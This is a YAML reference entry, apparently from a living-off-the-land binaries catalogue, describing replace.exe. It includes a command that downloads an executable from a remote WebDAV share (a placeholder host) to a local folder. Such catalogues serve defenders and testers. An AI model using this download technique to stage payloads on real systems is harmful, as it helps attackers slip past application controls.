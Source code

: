 ---
Name: Replace.exe
Description: Copy, Download
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: replace.exe C:\Source\File.cab C:\Destination /A
    Description: Copy the specified file to the destination folder.
  - Command: replace.exe \\webdav.host.com\foo\bar.exe c:\outdir /A
    Description: Copy the specified file to the destination folder.
Full Path:
  - C:\Windows\System32\replace.exe
  - C:\Windows\SysWOW64\replace.exe
Code Sample: []
Detection: []
Resources:
  - https://twitter.com/elceef/status/986334113941655553
  - https://twitter.com/elceef/status/986842299861782529
Notes: Thanks to elceef - @elceef

